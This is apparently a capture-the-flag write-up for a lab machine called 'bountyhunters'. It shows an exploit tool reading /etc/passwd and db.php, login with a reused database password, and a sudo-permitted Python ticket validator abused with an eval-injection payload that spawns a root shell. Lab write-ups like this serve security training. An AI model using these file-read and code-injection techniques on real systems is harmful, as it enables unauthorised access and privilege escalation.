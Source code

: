 # bountyhunters
file dump can be used with exploit.go, by default it traverse /proc/*/cmdline
pass -i flag for an interactive shell that you can pull down files with
```
./exploit -i
> /etc/passwd
> /var/www/html/db.php
```

## user
only login with /bin/bash in /etc/passwd is development, tried password found in db.php and it works

## priv esc
sudo -l shows `(root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py`

looking through the code we see it looks for a ticket file in format
```
# Skytrain Inc
## Ticket to place
__Ticket Code:__
**ticketcode+something

ticketcode % 7 must equal 4 - we can use 11, then remove code and eval after +
Our ticket to feed is ticket.md:
```
# Skytrain Inc
## Ticket to flavortown
__Ticket Code:__
**11+__import__('os').system('/bin/bash')
```